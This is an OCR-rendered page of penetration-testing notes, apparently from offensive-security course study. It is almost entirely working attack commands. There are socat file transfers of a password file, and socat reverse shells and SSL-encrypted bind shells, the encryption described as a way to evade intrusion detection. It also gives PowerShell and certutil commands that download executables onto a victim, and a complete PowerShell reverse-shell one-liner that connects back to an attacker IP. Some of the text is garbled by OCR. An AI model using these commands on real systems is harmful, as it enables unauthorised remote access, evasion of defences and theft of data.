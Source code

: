 **TRANSFER FILES WITH SOCAT** On attacker side, share the file you want to send. `sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt`

On Windows `socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create`

***

**SOCAT REVERSE SHELLS:** On attacker side set up a listner: \`socat -d -d TCP4-LISTEN:443 STDOUT

On Victims: `socat TCP4:10.11.0.22:443 EXEC:/bin/bash`

***

**SOCAT ENCRYPTED SHELL**

> To add encryption to a bind shell, we will rely on Secure Socket Layer85 certificates. This level of encryption will assist in evading intrusion detection systems (IDS)86 and will help hide the sensitive data we are transceiving.

Generate a ssl certificate: `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 36 2 -out bind_shell.crt`

Comdine these files in a pem file so socat can accept it. `cat bind_shell.key bind_shell.crt > bind_shell.pem`

```
req: initiate a new certificate signing request
-newkey: generate a new private key 
rsa:2048: use RSA encryption with a 2,048-bit key length. 
-nodes: store the private key without passphrase protection 
-keyout: save the key to a file 
-x509: output a self-signed certificate instead of a certificate request 
-days: set validity period in days 
-out: save the certificate to a file
```

After that start a listner; \`\` `sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin /bash`

On victims side: `socat - OPENSSL:10.11.0.4:443,verify=0`

***

**TRANSFER FILES WITH POWERSHELL:** **INVOKE WEB REQUESTS**

`Powershell -c Invoke-WebRequest -Uri "<http://ip:port/file>" -OutFile <path>/filename`

**CERTUTILL**

`certutil.exe -urlcache -f <http://10.0.0.5/40564.exe> bad.exe`

Anotherway: \`powershell -c "(new-object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"

***

**POWERSHELL REVERSE SHELL**

Start a listner: `sudo nc -lnvp 443` On victims:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10. 11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$c lient.Close()"`
